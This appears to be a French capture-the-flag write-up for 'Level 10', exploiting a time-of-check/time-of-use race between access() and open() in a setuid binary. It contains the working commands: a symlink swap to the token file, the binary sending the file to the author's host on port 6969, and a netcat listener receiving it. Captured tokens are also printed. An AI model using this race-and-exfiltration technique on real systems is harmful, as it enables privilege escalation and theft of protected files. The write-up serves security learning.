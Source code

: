 # Level 10

Comme pour le level 8 et 9 nous avons toujours 2 fichiers, un binaire portant le nom du level et un fichier token.

Comme pour le level 8 et le level 10, n'avons pas les droits pour lire le fichier token, mais le binaire possède un stickybit qui lui donne les droit de son owner flag10, qui est le même que l'owner du token.

Quand on décompile le binaire, on peut voir qu'il essaye de se connecter à un adresse ip passée en argument sur le port `6969` et d'écrire le fichier passé en argument sur le serveur.

Avant de se connecter, la fonction access est appellée afin de vérifier les droits de l'utilisateur réel (donc qui exécute le binaire). L'utilisateur réel level10 n'as pas les droits sur le fichier token.

Mais l'utilisation d'`access` puis `open` crée un trou de sécurité comme l'explique le man de [access](http://manpagesfr.free.fr/man/man2/access.2.html), car entre le temps de la vérification et de l'ouverture nous pouvons crée un lien symbolique d'un fichier ou quel nous n'avons pas les droits réel.

Ainsi, il est possible de donner en paramètre à lexécutable un fichier sur lequel nous avons tous les droits, afin que la fonction access retourne une réponse positive.

Ensuite, en passant l'adresse IP du vboxnet 192.168.56.1, l'executable `level10` attend une réponse ce qui nous laisse le temps de créer un lien symbolique sur le fichier passé en paramètre vers le fichier token.

Sur le serveur tty1:

```sh
~ echo "123" > /tmp/link
~ ./level10 /tmp/link 192.168.56.1
Connecting to 192.168.56.1:6969 ..
[wait]
```

Sur le serveur tty2:

```sh
~ ln -fs /home/user/level10/token /tmp/link
```

Sur notre machine local:

```sh
~ nc -lv 6969
.*( )*.
woupa2yuojeeaaed06riuj63c
```

Sur le serveur tty1:

```sh
~ ./level10 /tmp/link 192.168.56.1
Connecting to 192.168.56.1:6969 .. Connected!
Sending file .. wrote file!
~ su flag10
Password:
Don\'t forget to launch getflag !
~ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

